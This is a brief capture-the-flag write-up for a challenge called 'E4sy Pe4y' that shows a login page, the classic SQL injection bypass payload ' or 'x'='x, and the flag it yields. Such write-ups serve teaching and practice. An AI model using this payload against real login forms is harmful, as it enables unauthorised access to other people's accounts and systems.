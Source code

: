 ```yaml
---
description: 'web : http://34.102.111.73'
---
```


# E4sy Pe4y

## Login

![](../.gitbook/assets/image%20%2810%29.png)

```
payload: ' or 'x'='x
```

![](../.gitbook/assets/image%20%289%29.png)

**Flag: GrabCON{E4sy\_pe4sy\_SQL\_1nj3ct10n}**



